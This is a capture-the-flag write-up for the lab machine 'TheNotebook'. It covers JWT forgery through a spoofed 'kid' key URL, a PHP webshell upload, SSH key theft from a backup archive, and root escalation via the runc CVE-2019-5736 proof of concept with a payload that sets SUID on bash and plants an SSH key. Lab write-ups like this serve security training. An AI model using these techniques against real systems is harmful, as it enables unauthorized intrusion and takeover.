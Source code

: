 # TheNotebook

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.71.99  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 09:27 EDT
Nmap scan report for 10.129.71.99
Host is up (0.0081s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

### Notebook --> JWT Spoof

The website is a notebook website:

<figure><img src="../../../.gitbook/assets/image (623) (1).png" alt=""><figcaption></figcaption></figure>

We can create a new user because we don't have any credentials. Once created, we can login and view our notes, of which we have none:

<figure><img src="../../../.gitbook/assets/image (10) (7) (2).png" alt=""><figcaption></figcaption></figure>

When the requests are viewed in Burp, we can see that it uses a JWT token and a `uuid` parameter:

{% code overflow="wrap" %}
```http
GET / HTTP/1.1
Host: 10.129.71.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.129.71.99/70e7d57d-8987-4075-9a28-2c9075219c68/notes
Connection: close
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InRlc3QxMjMiLCJlbWFpbCI6InRlc3RAd2Vic2l0ZS5jb20iLCJhZG1pbl9jYXAiOjB9.HOnHZHkqdPXbWn4LJrSgF4-DX0UXztaiQxefbsp0DteIvaQUtOMkAGgTvvZex0QU63vcrnXwQRTj5MLfMp1JyFHUWIS5J9slqqhXGsNNSOBQHmHlvptTLa8mvJCZJJAqymKCxGswa41Nu7hb20W3Ksi7iQSg9JcZoy9WeFV9lbEhBiSrler_H1LiSzkF-x4vegERnJiGkZ4hK_2LjVObeeY3ZCQcJWjCH3Cuo2YG1rVas4h0YBinnSq9ANvUsovpLolovsOUP4TNDPzIlccMjmhU0R_yhh5WItg0uG_PiQaACryT3G2_PYw5PRj_Dj5COrHtzYaT2NES2q54WecSJOWfD7RUW6o-yB4SFC_lJVqfqE3DljujJwGcOf8SP43kAf1z_VLGKuUkHceOsvU60aEDZDcgnJB4LTuIjqunIVzZ22lnlfHDGe1zJza8bpUVk-2xDDmqj1F3bBsCMQOXnmMmffBpSFPjsTyBwZM2F3kNEmopZiHr1S1UzeMolW98gzIrwGM8jx1lMOV76SNlK6vGP-q_UoFOg8F07aB6ClPqtbw83cyQZLn2kME40XDBzZgNgbzXmZXfnBg83mkWis9KQhOL8FJ3MPha7h0tfSnsiUXV2s7vATWXlrydpQL6gsWsuWt-cn6CQGEPAX0svar_9K8Pyd08NDJJpNdVfmg; uuid=70e7d57d-8987-4075-9a28-2c9075219c68
Upgrade-Insecure-Requests: 1
```
{% endcode %}

We can take a look at this cookie within jwt.io and see that it uses a private key hosted on the server.&#x20;

<figure><img src="../../../.gitbook/assets/image (627) (1).png" alt=""><figcaption></figcaption></figure>

The token is spoofable, similar to another machine Unicode. We can generate our own private key using `openssl` and use it to spoof the token by replacing the `kid` parameter with a link hosting the key instead. Also, we can change `admin_cap` to be 1.&#x20;

```bash
openssl genrsa -out priv.key 2048
```

<figure><img src="../../../.gitbook/assets/image (455) (2).png" alt=""><figcaption></figcaption></figure>

When we use this token after refreshing the page, we can see an Admin Panel present.&#x20;

<figure><img src="../../../.gitbook/assets/image (648).png" alt=""><figcaption></figcaption></figure>

Then, we can view the notes of the administrator through Admin Panel > View Notes.

<figure><img src="../../../.gitbook/assets/image (442) (2).png" alt=""><figcaption></figcaption></figure>

Conveniently, the first note reveals that PHP files are left executable on this website.

<figure><img src="../../../.gitbook/assets/image (628) (1).png" alt=""><figcaption></figcaption></figure>

The admin panel also has an upload file feature:

<figure><img src="../../../.gitbook/assets/image (649).png" alt=""><figcaption></figcaption></figure>

I uploaded a basic PHP webshell, and the page shows this:

<figure><img src="../../../.gitbook/assets/image (525) (2).png" alt=""><figcaption></figcaption></figure>

Using this, we can get RCE:

<figure><img src="../../../.gitbook/assets/image (631) (1).png" alt=""><figcaption></figcaption></figure>

And subsequently, a reverse shell.

<figure><img src="../../../.gitbook/assets/image (437) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We can't grab the user flag yet as `noah` owns it.

### Home.tar.gz

I viewed the `nginx` configuration files:

```
www-data@thenotebook:/$ cat /etc/nginx/sites-available/default
server {
        listen 80 default_server;
        root /var/www/html;
        server_name _;
        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/var/run/php/php7.2-fpm.sock;
        }
        location / {
                proxy_pass http://127.0.0.1:8080/;
        }
}
```

There was nothing much there that was new. Within the `/var/backups` file, there was an extra file present:

```
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0     apt.extended_states.2.gz  home.tar.gz
apt.extended_states.1.gz  apt.extended_states.3.gz
```

We can copy this folder to `/dev/shm` and open it there since we can't create new files within `/var/backups`.

```
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm
www-data@thenotebook:/var/backups$ cd /dev/shm
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

We can grab the `id_rsa` file and `ssh` in as `noah`.&#x20;

### Sudo Privileges

We can check our `sudo` privileges:

```
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

It seems that we can run docker as `root`. Googling for exploits pertaining to this version reveals a CVE that allows for RCE. This is caused by an outdated `runc` binary that is run from the container.&#x20;

{% embed url="https://github.com/Frichetten/CVE-2019-5736-PoC" %}

Download this repositroy, and we can change the payload run to something else:

{% code overflow="wrap" %}
```bash
var payload = "#!/bin/bash \n chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys"
```
{% endcode %}

Then we can run `go build main.go` to build it. Then, following the PoC, we can create a Docker container using the `sudo` command allowed.

```bash
sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
```

Afterwards, within the container, run the `main` binary and it will hang:

```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
```

On a second Window, we need to run the `sudo` command one more time, and on the Docker container, it would execute properly:

{% code overflow="wrap" %}
```
root@0f4c2517af40:/opt/webapp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 3292
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc00036e060}
[+] The command executed is#!/bin/bash 
 chmod u+s /bin/bash && echo 'KEY' >> /root/.ssh/authorized_keys
```
{% endcode %}

Then, we can just `ssh` into `root`.&#x20;

<figure><img src="../../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>

Rooted!
